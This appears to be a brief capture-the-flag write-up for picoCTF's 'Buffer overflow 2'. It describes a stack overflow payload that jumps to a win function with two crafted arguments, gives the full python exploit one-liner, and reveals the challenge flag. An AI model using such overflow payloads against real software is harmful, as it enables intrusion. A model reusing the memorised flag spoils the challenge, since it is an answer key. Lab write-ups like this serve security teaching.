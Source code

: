 # Buffer overflow 2

Simple bof, but need to modify arguments so that we can get flag

payload + return address to win function + fake return address of win function + arg1 + arg2

```
python -c 'print("A" * 0x70 + "\xcb\x85\x04\x08" + "\x00\x00\x00\x00" + "\xef\xbe\xad\xde" + "\xde\xc0\xad\xde")' | ./vuln
```

`picoCTF{addr3ss3s_ar3_3asy30833fa1}`